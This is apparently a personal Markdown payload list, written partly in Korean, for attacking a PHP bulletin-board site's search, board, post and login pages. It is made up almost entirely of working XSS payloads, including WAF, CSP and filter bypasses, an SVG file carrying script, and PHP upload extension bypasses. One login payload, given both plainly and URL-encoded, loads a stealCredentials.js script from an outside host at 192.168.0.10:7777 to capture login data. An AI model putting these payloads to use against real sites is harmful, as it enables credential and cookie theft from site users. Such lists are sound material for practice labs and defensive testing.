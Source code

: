# Payloads

## XSS

### Attack surfaces

- 게시글 검색 `search.php`의 `q` 파라미터

- 게시판 선택 시 `board.php`의 `page` 파라미터

- 글 생성 및 댓글 생성 `post.php` | `stored xss` 

### Payloads

<!-- 검색하는 곳; 숫자 및 문자열 삽입-->
`/search.php?q=<script>alert%287%29<%2Fscript>`

`/search.php?q=<script>alert%28%27test%27%29<%2Fscript>`

`/search.php?q=<img+src%3Dx+onerror%3D"%26%230000106%26%230000097%26%230000118%26%230000097%26%230000115%26%230000099%26%230000114%26%230000105%26%230000112%26%230000116%26%230000058%26%230000097%26%230000108%26%230000101%26%230000114%26%230000116%26%230000040%26%230000039%26%230000088%26%230000083%26%230000083%26%230000039%26%230000041">`

<!-- Unicode encoding -->
`/search.php?q=<script>%5Cu0061lert%281%29<%2Fscript>`

`/search.php?q=<object+data%3D"data%3Atext%2Fhtml%2C<script>alert%281%29<%2Fscript>">`

<!-- 글 생성 및 출력되는 곳-->
<!-- 댓글 생성 및 출력되는 곳-->
`GET /post.php`

`/board.php?page=2<ScRiPt>alert(%27page%27)</sCripT>`

`/index.php?page=2xssz"><img/src=x%20onerror=confirm(999)><!--`

`/post.php?id=41"><img/src=x%20onerror=confirm(999)><!--&board=3`

`/board.php?page=2</TITLE><SCRIPT>alert("XSS");</SCRIPT>`

<!-- 로그인 페이지; username 파라미터; value 속성 내 -->
`/login.php?username=test"><img%20src=x%20onerror=alert(1)>`

`/login.php?username="><base%20href%3d"http%3a%2f%2fgoogle%2ecom%2f">`

<!-- ?username="><script%20src="http://192.168.0.10:7777/stealCredentials.js"></script><br -->
<!-- 로그인 정보 탈취; 페이로드 URL 인코딩 -->
`/login.php?username=%22%3e%3c%73%63%72%69%70%74%25%32%30%73%72%63%3d%22%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%30%2e%31%30%3a%37%37%37%37%2f%73%74%65%61%6c%43%72%65%64%65%6e%74%69%61%6c%73%2e%6a%73%22%3e%3c%2f%73%63%72%69%70%74%3e`

<!-- Custom tag 이용 -->
`/search.php?q=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x`

<!-- DOM XSS; board.php 확인 -->
`/board.php?page=2<script>alert(%27xss%27)</script>`

<!-- WAF 우회; () 사용하지 못하고, 16진수 인코딩 기법 사용 및 객체 리터럴로 onerror 이벤트에 eval 함수 적용 후 throw를 통해 트리거 -->
`/board.php?page=2<script>{onerror=eval}throw%27=alert\x281337\x29%27</script>`

<!-- CSP 우회 -->
`?token=;script-src-elem 'unsafe-inline'&search=<script>alert('XSS')</script>`

<!-- 만약 a 태그의 href 속성이 막혔을 경우 -->
`<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a></svg>`

`<svg><animateTransform onbegin=alert(1)>`

<!-- 만약 태그 내 속성이 ">를 통해서 안 닫힐경우, 속성을 이어서 적는 방식 사용 -->
`" autofocus onfocus=alert(1) x="`

`/login.php?username="%20autofocus%20onfocus=alert(1)%20x="`

<!-- <a href="$_GET['homepage']"></a> 부분이 존재할 때, 속성에 직접 pseudo-protocol 삽입 -->
`/post.php?id=51&board=3&homepage=javascript:alert(1)`

`?homepage=data:text/html,<script>alert(1)</script>`

<!-- <script>const searchTerms = '<?php echo $_GET['q'];?>'</script> 와 같은 형식으로 검색어를 받을 때-->
`/search.php?q=%27;alert(document.domain)//`

<!-- <?php $output = str_replace("'", "\\'", $output); ?> 와 같이 작은 따옴표를 이스케이프할 때 -->
`/search.php?q=\%27;alert(document.domain)//`

<!-- 글 수정하는 곳 -->
`/edit_post.php?id=51"%20autofocus%20onfocus="alert(1)<!--`

<!-- 문자열 치환 사용 -->
`/search.php?q=<img%20src="x"%20onerronerroror="alert(1)">`

<!-- const isSafeInput = x => !/<script|<img|<input|<.*on/is.test(x); 필터링 우회-->
`<iframe srcdoc="<&#x69;mg src=1 &#x6f;nerror=alert(parent.document.domain)>">`

<!-- Unicode, ASCII, Computed member access를 이용한 우회 -->
`alert(document["\u0063ook" + "ie"]);  // alert(document.cookie)`
`window['al\x65rt'](document["\u0063ook" + "ie"]);  // alert(document.cookie)`

<!-- String.fromCharCode를 이용한 우회 -->
`<script>window[String.fromCharCode(97, 108, 101, 114, 116)](1)</script>`

<!-- 36진수 변환을 통한 우회 -->
`<script>window[17795081..toString(36)](1)</script>`

<!-- 백틱(`)을 통한 우회 -->
`<script>alert`1`</script>`

<!-- alert, document, cookie 문자 필터링 우회 -->
`<script>this['al'+'ert'](this['do'+'cument']['coo'+'kie'])</script>`

<!-- location.hash를 통한 우회; 길이 검증이 존재할 때 -->
`<img src onerror="eval(location.hash.slice(1))">#alert(document.cookie);`

<!-- svg file -->
```svg
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      alert('xss');
   </script>
</svg>
```

### WAF Bypass

- 적용 가능한 태그 및 이벤트 핸들러 무차별 대입 공격으로 확인

- 모든 HTML 태그가 막혀있을 경우, Custom tag 사용

- Unicode 인코딩 기법 사용

- 프로필 이미지에 svg 업로드가 가능할 시 svg 파일 내에 페이로드 삽입

### Cheat Sheet
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet



## SQL Injection

## File upload

### 우회 확장자

`pHp` `phtml`